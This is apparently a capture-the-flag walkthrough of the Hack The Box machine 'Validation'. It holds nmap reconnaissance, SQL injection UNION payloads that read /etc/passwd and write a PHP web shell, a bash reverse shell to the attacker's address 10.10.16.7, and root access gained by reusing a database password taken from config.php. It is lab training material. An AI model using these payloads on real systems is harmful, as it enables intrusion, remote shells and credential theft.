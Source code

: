 ```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Validation





```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.116 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 16:07 CET
Initiating SYN Stealth Scan at 16:07
Scanning 10.10.11.116 [65535 ports]
Discovered open port 22/tcp on 10.10.11.116
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 16:07, 18.90s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up, received user-set (0.070s latency).
Scanned at 2025-02-13 16:07:11 CET for 19s
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.02 seconds
           Raw packets sent: 67055 (2.950MB) | Rcvd: 67117 (2.691MB)
```



```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.116
	[*] Open ports: 22,80,4566,8080

[*] Ports copied to clipboard
```





```bash
❯ nmap -sCV -p22,80,4566,8080 10.10.11.116 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 16:07 CET
Nmap scan report for 10.10.11.116
Host is up (0.080s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   121.14 ms 10.10.16.1
2   46.79 ms  10.10.11.116

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.30 seconds
```



```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../.gitbook/assets/4906_vmware_m0Tp36XLAS.png" alt=""><figcaption></figcaption></figure>



```bash
❯ whatweb http://10.10.11.116/
http://10.10.11.116/ [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```



<figure><img src="../../.gitbook/assets/imagen (337).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (338).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (339).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (340).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (341).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (342).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (343).png" alt=""><figcaption></figcaption></figure>



```sql
'UNION SELECT 1;-- -
```



<figure><img src="../../.gitbook/assets/imagen (344).png" alt=""><figcaption></figcaption></figure>



```sql
'UNION SELECT USER();-- -
```

<figure><img src="../../.gitbook/assets/imagen (345).png" alt=""><figcaption></figcaption></figure>



```sql
'UNION SELECT DATABASE();-- -
```



<figure><img src="../../.gitbook/assets/imagen (346).png" alt=""><figcaption></figcaption></figure>





```sql
'UNION SELECT VERSION();-- -
```

<figure><img src="../../.gitbook/assets/imagen (347).png" alt=""><figcaption></figcaption></figure>



```sql
'UNION SELECT LOAD_FILE('/etc/passwd');-- -
```

<figure><img src="../../.gitbook/assets/imagen (348).png" alt=""><figcaption></figcaption></figure>





```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/gzzcoo.php";-- -
```



<figure><img src="../../.gitbook/assets/4920_vmware_akX6HTC6Sp.png" alt=""><figcaption></figcaption></figure>





```bash
❯ curl -s 'http://10.10.11.116/gzzcoo.php?cmd=whoami'
www-data
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```



```sql
❯ curl -s "http://10.10.11.116/gzzcoo.php?cmd=/bin/bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.16.7/443%200>%261'"
```





```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.116] 35532
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ cat /home/htb/user.txt 
034c3ec9bef6ff9b13b0fc256bc395a5
```





```bash
www-data@validation:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@validation:/var/www/html$ sudo -l
bash: sudo: command not found
```



```bash
www-data@validation:/var/www/html$ ls -l
total 36
-rw-r--r-- 1 www-data www-data  1550 Sep  2  2021 account.php
-rw-r--r-- 1 www-data www-data   191 Sep  2  2021 config.php
drwxr-xr-x 1 www-data www-data  4096 Sep  2  2021 css
-rw-r--r-- 1 www-data www-data 16833 Sep 16  2021 index.php
drwxr-xr-x 1 www-data www-data  4096 Sep 16  2021 js
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```





```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html$ cat /root/root.txt 
00b9b6d3f6502d1056765e46a0788cb7
```

